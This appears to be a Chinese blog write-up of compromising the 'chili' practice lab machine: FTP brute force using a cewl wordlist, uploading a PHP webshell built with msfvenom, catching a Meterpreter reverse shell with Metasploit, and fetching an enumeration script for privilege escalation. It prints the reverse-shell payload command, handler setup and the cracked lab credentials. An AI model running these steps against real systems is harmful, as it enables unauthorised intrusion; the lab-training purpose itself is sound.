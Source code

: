 ```yaml
---
title: chili靶机
author: Pp1ove
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: hojun.cn
authorAbout: 一个好奇的人
authorDesc: 一个好奇的人
categories: 技术
comments: true
date: 2021-03-06 22:11:04
tags:
keywords:
description:
photos:
---
```




# 信息搜集

## 主机发现

![image-20210306221200259](chili靶机/image-20210306221200259.png)

# 漏洞发现与利用

扫一下80端口目录没扫出来东西,目标锁向21端口,cewl工具跑一下关键词,获取到可能存在的用户名

![image-20210306223449953](chili靶机/image-20210306223449953.png)

暴力破解

![image-20210306224333755](chili靶机/image-20210306224333755.png)

```
用户名: chili
密码: a1b2c3d4
```

登录ftp

ftp 192.168.182.131     

发现有777权限的目录

![image-20210306225941962](chili靶机/image-20210306225941962.png)

进入后用msf生成shell并上传

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.200.129 LPORT=4444 -f raw  > shell.php
```

别忘了给shell加777权限

浏览器访问shell成功拿到shell

# 提权

```
use exploit/multi/handler
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.43.221
set LPORT 2233
run
```

浏览器访问我们的shell

![image-20210307103935223](chili靶机/image-20210307103935223.png)

进入交互模式

在.nano目录中使用wget下载https://github.com/luke-goddard/enumy提权脚本

关于enumy工具:https://www.cnblogs.com/zzjdbk/p/14094663.html